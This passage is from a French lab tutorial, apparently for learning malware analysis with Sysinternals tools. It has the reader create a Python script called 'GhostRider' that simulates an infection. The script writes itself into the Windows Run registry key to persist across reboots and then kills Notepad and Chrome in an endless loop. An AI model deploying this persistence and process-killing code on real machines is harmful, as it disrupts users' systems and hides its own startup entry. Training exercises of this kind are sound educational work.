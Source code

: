 3. **Téléchargement des outils Sysinternals :**
   - Accédez au site officiel de [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).
   - Téléchargez l'ensemble des outils Sysinternals sous forme d'archive ZIP.
   - **Décompression :** Décompressez le fichier ZIP dans un dossier sur le bureau ou dans un répertoire facile d'accès.

---

### **# ÉTAPE 3 : Création du Script Python Simulant une Infection**

1. **Ouvrir un éditeur de texte :**
   - **Suggestion :** Utilisez Notepad++, Visual Studio Code, ou tout autre éditeur de texte de votre choix.

2. **Copier le code suivant :**
   - Copiez le code Python ci-dessous dans votre éditeur de texte :
   
   ```python
   import subprocess
   import sys
   import time
   import winreg as reg  # Module pour manipuler le registre Windows

   def add_to_startup(file_path):
       key = reg.HKEY_CURRENT_USER
       sub_key = r"Software\Microsoft\Windows\CurrentVersion\Run"
       open_key = reg.OpenKey(key, sub_key, 0, reg.KEY_SET_VALUE)
       reg.SetValueEx(open_key, "GhostRider", 0, reg.REG_SZ, file_path)
       reg.CloseKey(open_key)

   def infinite_kill_tasks():
       while True:
           print("Processus 5 : Fermeture en boucle des applications courantes...")
           if sys.platform == "win32":
               subprocess.call(["taskkill", "/F", "/IM", "notepad.exe"])
               subprocess.call(["taskkill", "/F", "/IM", "chrome.exe"])
           time.sleep(5)

   if __name__ == "__main__":
       script_path = sys.argv[0]
       add_to_startup(script_path)
       infinite_kill_tasks()
   ```

3. **Enregistrer le fichier :**
   - Enregistrez le fichier sous le nom `GhostRider.py` dans un répertoire facile à retrouver, par exemple dans le dossier *Documents*.

---

### **# ÉTAPE 4 : Exécution et Vérification du Comportement de Notepad**

